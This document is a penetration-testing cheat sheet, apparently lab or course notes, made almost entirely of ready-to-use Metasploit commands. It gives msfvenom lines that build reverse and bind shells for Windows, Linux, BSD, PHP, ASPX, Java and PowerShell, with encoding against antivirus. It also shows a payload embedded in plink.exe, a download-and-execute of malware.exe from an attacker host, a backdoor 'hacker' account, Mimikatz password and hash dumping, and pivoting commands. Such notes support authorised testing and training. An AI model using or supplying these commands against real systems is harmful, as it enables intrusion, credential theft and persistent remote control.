 ## msfvenom
-----

#### var name "payload" and type python, windows non-staged reverse shell

```msfvenom -p windows/shell_reverse_tcp -f py --var-name payload LHOST=10.11.0.111 LPORT=7171```
-----


#### windows non-staged reverse shell, x86, C, exclude x00,x0a,x0d, encode shikata

```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4448 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai```
-----


#### windows staged reverse shell, output to shell.exe

```msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.111 LPORT=4447 -f exe -o shell.exe```
-----


#### linux x86, python, staged meterpreter

```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.111 LPORT=6969 -f python```
-----


#### windows non-staged meterpreter reverse shell, VBScript

```msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.0.103 LPORT=4444 EXITFUNC=thread -f vbs --arch x86 --platform win```
-----


#### windows aspx non-staged reverse shell

```msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4450 -e x86/shikata_ga_nai -o shell.aspx```
-----


#### PHP meterpreter staged reverse shell

```msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f raw -o shell.php```
-----


#### Java WAR non-staged reverse shell

```msfvenom -p java/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f war -o shell.war```
-----


#### linux x86 bind shell, shikata encoded, excluded values

```msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b “\x00\x0a\x0d\x20” -e x86/shikata_ga_nai```
-----


#### FreeBSD ELF reverse shell, non-staged

```msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f elf -o shell.elf```
-----


#### Linux non-staged reverse shell (shellcode)

```msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -e x86/shikata_ga_nai -f c```
-----


#### Windows Python non-staged reverse shell

```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 EXITFUNC=thread -f python -o shell.py```
-----


#### Windows Javascript non-staged reverse shell with NOPs

```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f js_le -e generic/none -n 18```
-----


#### Windows Powershell non-staged reverse shell

```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1```
-----


#### Windows x64 non-staged reverse shell

```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f exe -o shell.exe```
-----


#### Windows non-staged reverse shell embedded into plink

```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.111 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe```
-----


#### Download and execute (windows)

```msfvenom -p windows/download_exec URL=http://10.11.0.111/malware.exe -f py --var-name shellcode```
-----


#### Create user (windows)

```msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe```
-----


## Mimikatz
-----

#### Password and Hash gathering (windows)

*In meterpreter session*
```
load mimikatz
msv
mimikatz_command -f samdump::hashes
mimikatz_command -f sekurlsa::searchPasswords
```
-----


## Other
-----

#### SOCKS4 proxy through target

```
run autoroute -s 10.1.1.0/24
run autoroute -p
use auxiliary/scanner/portscan/tcp 
auxiliary/server/socks4a
```
-----


#### Attempt to connect back on all ports (when unsure of egress rules)

```payload/reverse_tcp_allports```
-----


#### Set global parameters

```setg```
-----


#### add nmap scan to database

```db_nmap 10.11.1.0/24 --top-ports 20```
-----


#### post exploitation / privesc

```post/multi/recon/local_exploit_suggester```
-----




